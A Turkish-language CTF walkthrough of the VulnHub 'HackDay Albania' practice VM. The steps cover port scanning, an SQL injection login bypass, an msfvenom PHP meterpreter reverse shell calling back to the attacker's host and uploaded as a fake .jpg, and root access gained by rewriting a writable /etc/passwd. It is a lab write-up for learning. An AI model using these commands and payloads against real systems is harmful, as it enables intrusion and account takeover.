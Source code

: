 ```yaml
---
layout: post
title: HackDay Albania Walktrough
date: '2017-03-03 16:10:00 +0300'
categories: cozumler
---
```


Selam,  
HackDay Albania CTF 2016'da kullanılan sanal makinanın tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.  
  
    
__HackDay Albania CTF__

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır  

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)


__VM çözümü__  

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için  

```
ifconfig
```  

komutu ile kendi IP adresimizi ve Subnet Mask'ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)   

```
nmap 192.168.1.1/24
```  

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** 
ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde;
22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/01.png)  


Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek
için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.  
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/02.png)  


```
nmap -n -p 1-65535 -sV 192.168.1.10 --open
```  
    
komutu ile tüm açık TCP portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda  
```
http://192.168.1.10:8080
```

adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alacaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır. Bu satırları google translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış olduğunu anlıyoruz ve yazıda **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **[Owasp ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)** aracında tarattığımızda birşey gözümüze çarpıyor:

```
robots.txt
```   
    

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/03.png)  


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/04.png)  


Fakat ortalara doğru

```
/unisxcudkqjydw
```

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/05.png)  


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

```
http://192.168.1.10:8008/unisxcudkqjydw/vulnbank/
```

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen SQL Injection
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/06.png)  


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle   

```
' or '1' = '1
```

olarak bilinen genel yöntemi deniyoruz ancak çok da sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


```
Invalid Credentials...
```


tabi ki pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize, biz de
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

```
' or 'aucc' = 'aucc';#
```

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
SQL sorgusu kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/07.png)   


fakat gözümüz hala doymamış olacak ki sistem hedefinden şaşmayıp sağda duran **Contact Support**
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php
```  

ile **192.168.1.5** IP adresli Kali Linux makinemizin 4444 portuna yönlendiren
bir php zararlı yazılımı, üretip onu da raw formatında **aucc.php** adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/08.png)  


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
**aucc.php** yi yüklemeye çalışıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/09.png)  


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/10.png)  


Biz de, al sana jpg diyip **aucc.php** nin adını **aucc.jpg** olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/11.png)  


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticket'ın üzerine tıklayıp, sistem **aucc.jpg** dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

```
/etc/group
```

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmayacak şekilde

```
/etc/passwd
```

doaysının izinlerine baktığımızda write iznini farkediyoruz. Tabi **meterpreter** üzerinden bunu editlemek biraz
sancılı olacağı için

```
download /etc/passwd
```

ile Kali'ye hedef makinenin passwd dosyasını indiriyoruz. Eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir **x** bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

```
openssl passwd -1 -salt tuzlu aucc
```

ile passwd formatında md5(-1) tipinde **tuzlu** ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

```
$1$tuzlu$LewyIW83SjgyBrkI29SWh0
```  

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/12.png)  


Root'un parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreter'dan

```
upload passwd /etc/passwd
```

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

```
ssh taviso@192.168.1.10
```

ile bağlantımızı kurup parola olarak 

```
aucc
```

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/13.png)  

```
cat /root/flag.txt
```

ile flag'i bastırıp flag'i gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.

```
FLAG:

    Urime,

    Tani nis raportin!

    (arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)
```      
**d5ed38fdbf28bc4e58be142cf5a17cf5**
    
    
      
 ---
 **[Hüseyin Erdem](https://twitter.com/rootofarch)**

